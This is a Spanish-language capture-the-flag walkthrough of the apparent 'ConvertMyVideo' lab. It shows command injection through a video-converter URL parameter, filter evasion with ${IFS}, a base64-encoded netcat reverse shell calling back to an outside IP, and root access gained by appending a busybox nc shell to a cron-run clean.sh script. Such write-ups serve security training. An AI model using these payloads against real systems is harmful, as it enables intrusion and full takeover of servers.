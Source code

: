# ConvertMyVideo

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado dos puertos abiertos en el sistema: el puerto `22` para `ssh`, el `80`, para `HTTP`.

<figure><img src="../.gitbook/assets/ConvertMyVideo/nmap.png" alt=""><figcaption></figcaption></figure>

Realizamos una enumeración de los directorios disponibles en el puerto `80`, pero no encontramos nada interesante. Sin embargo, podemos utilizar la web `index.php`, que funciona como convertidor de video.

<figure><img src="../.gitbook/assets/ConvertMyVideo/web.png" alt=""><figcaption></figcaption></figure>

Al subir un video, lo que se redirige es una URL con la terminación `v=?>>`. Aunque esto no es lo que nos interesa, al ingresar una `URL` que no contiene un video, recibimos un error, lo cual puede ser útil para determinar los pasos a seguir.

<figure><img src="../.gitbook/assets/ConvertMyVideo/burp1.png" alt=""><figcaption></figcaption></figure>


Podemos inyectar código para que el servidor lo ejecute y así obtener una `reverse shell`. Para ello, necesitamos una lista de palabras que contenga varios métodos para saltar o finalizar el código anterior y ejecutar el nuestro. En este caso, nos sirve el siguiente método, que consiste en un salto de línea seguido de la ejecución del comando `id`.

```
%A0id%A0
```

<figure><img src="../.gitbook/assets/ConvertMyVideo/buirp2.png" alt=""><figcaption></figcaption></figure>


Cuando intentamos ejecutar un comando que contiene espacios, como `cat /etc/passwd`, el sistema solo reconoce hasta el primer espacio.

<figure><img src="../.gitbook/assets/ConvertMyVideo/burpe-esc.png" alt=""><figcaption></figcaption></figure>

Para solucionar este problema, podemos utilizar una variable de entorno llamada `${IFS}`, que actúa como un separador de campos internos.

```
cat${IFS}/etc/passwd
```

<figure><img src="../.gitbook/assets/ConvertMyVideo/burp-pass.png" alt=""><figcaption></figcaption></figure>

Con toda esta información, ya podemos crear nuestro payload para una `reverse shell`. Para simplificar el proceso, codificaremos nuestro `payload` en `base64` y lo pasaremos como comando. Quedaría de la siguiente manera.

```payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.2.64 4242 >/tmp/f

>> echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.2.64 4242 >/tmp/f' | base 64

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjkuMi42NCA0MjQyID4vdG1wL2Y=
```

Y para poder cargarlo en nuestro comando, lo ejecutaremos de la siguiente manera:

```
echo${IFS}'<payload-base64>'${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}/bin/bash
```

De esta manera, obtenemos nuestra `reverse shell` con el usuario `www-data`.

<figure><img src="../.gitbook/assets/ConvertMyVideo/reverse-hsell1.png" alt=""><figcaption></figcaption></figure>

# \www-data

{% embed url="https://0xffsec.com/handbook/shells/full-tty/" %}

Con esto, podemos responder a las dos preguntas que se nos plantean.

1. What username is required to access the secret folder?
2. What is the user flag?

Estas se encuentran en `/var/www/html/admin`, en los archivos `.htpasswd` y `flag.txt`, respectivamente.

<figure><img src="../.gitbook/assets/ConvertMyVideo/2asdas.png" alt=""><figcaption></figcaption></figure>


Realizamos una enumeración de los servicios con `linpeas.sh` y `pspy64`. Con `linpeas` no encontramos nada relevante, pero al revisar los servicios en ejecucion, notamos que un archivo `bash` se ejecuta de forma recurrente, lo que podría ser nuestra salida.

<figure><img src="../.gitbook/assets/ConvertMyVideo/pspy.png" alt=""><figcaption></figcaption></figure>

Nos dirigimos a la carpeta `/var/www/html/tmp` y encontramos el archivo `clean.sh`. Aquí podemos insertar nuestro segundo `payload`, que es el siguiente:

```
busybox nc 10.9.2.64 4243 -e sh
```

Y para escribirlo podemos hacerlo con `nano` o desde la linea de comando con la siguiente linea:

```
echo 'busybox nc 10.9.2.64 4243 -e sh' >> clean.sh
```

Esto escribe en la ultima linea sin eliminar nada de lo ya esta.

<figure><img src="../.gitbook/assets/ConvertMyVideo/pwd.png" alt=""><figcaption></figcaption></figure>

Iniciamos nuestro oyente:

```
nc -lvnp 4243
```

Esperamos un momento para que se ejecute el comando y logramos obtener el usuario `root`, lo que nos permite acceder al último archivo necesario, `root.txt`.

<figure><img src="../.gitbook/assets/ConvertMyVideo/root.png" alt=""><figcaption></figcaption></figure>

---------------

>*"Para ser feliz, no es necesario involucrarse demasiado con los demás."*
>		~Albert Camus
>
>*En el fondo, las relaciones humanas están llenas de ilusiones, expectativas y desilusiones. Cuanto más te apegas a los demás, más te conviertes en rehén de lo que piensan, de lo que requieren y de lo que esperan de ti.*
>
>*Para mí, la felicidad no proviene del exceso de vínculos, sino de la capacidad de permanecer intacto incluso en el silencio y la distancia. Debemos aprender a ser fieles a nosotros mismos; esto no es un desprecio hacia las personas, sino una cuestión de claridad. Puedes amarlas, pero no debes depender de ellas. Puedes caminar a su lado, pero nunca depender del paso de otra persona para seguir tu propio camino.* 
>
>*Ser feliz es entender que esa libertad interior vale más que cualquier aprobación externa y que, a veces, es necesario estar solo para finalmente encontrar la paz.*

<figure><img src="../.gitbook/assets/ConvertMyVideo/touthou.png" alt=""><figcaption></figcaption></figure>